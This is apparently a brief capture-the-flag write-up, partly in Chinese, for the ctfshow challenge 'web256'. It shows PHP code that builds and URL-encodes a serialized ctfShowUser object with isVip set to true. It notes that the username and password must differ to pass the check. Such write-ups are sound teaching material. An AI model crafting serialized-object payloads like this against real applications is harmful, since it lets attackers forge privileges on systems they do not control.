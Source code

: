 # web256
```
<?php
class ctfShowUser
{
    public $username = 'xxxxxx';
    public $password = 'yyyyyy';
    public $isVip = true;
}
$a=new ctfShowUser();
$b=serialize($a);
echo urlencode($b);
```
阅读代码,发现与上题不同处在于需满足
```
if($this->username!==$this->password)
```
为真
设置不一样即可
![](vx_images/514146088326640.png)